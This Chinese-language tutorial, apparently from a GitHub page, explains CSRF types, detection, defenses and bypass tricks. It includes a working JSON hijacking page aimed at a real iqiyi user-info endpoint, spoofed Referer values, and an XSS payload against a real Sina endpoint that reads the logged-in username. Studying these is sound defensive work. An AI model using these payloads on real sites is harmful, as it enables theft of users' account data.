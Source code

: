 
## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScrip自动提交表单，很容易造成蠕虫攻击，如下所示：  

![csrfch](../pictures/csrfch.png)  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；  
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；  
此时只能通过验证码来防范csrf 了。  

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
